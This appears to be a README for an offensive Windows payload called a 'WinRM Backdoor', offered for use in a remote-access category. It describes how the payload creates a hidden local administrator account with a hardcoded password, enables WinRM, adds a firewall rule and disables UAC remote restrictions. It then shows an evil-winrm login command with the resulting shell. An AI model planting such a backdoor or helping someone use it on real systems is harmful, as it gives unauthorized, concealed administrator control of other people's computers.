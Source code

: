 # "Microsoft Windows" WinRM Backdoor

- Title:         "Microsoft Windows" WinRM Backdoor
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Description

1) Adds a user account (OMG_User:OMG_P@ssW0rD).
2) Adds this local user to local administrator group.
3) Enables "Windows Remote Management" with default settings.
4) Adds a rule to the firewall.
5) Sets a value to "LocalAccountTokenFilterPolicy" to disable "UAC" remote restrictions.
6) Hides this user account.

## Exploitation

>
> The connection identifiers will be those defined by the values : **OMG_User** and **OMG_P@ssW0rD**.
>

```
hacker@hacker-computer:~$ evil-winrm --ip <TARGET> --user OMG_User --password 'OMG_P@ssW0rD'
*Evil-WinRM* PS C:\Users\OMG_User\Documents> whoami
desktop-xxxxxxx\omg_user
```

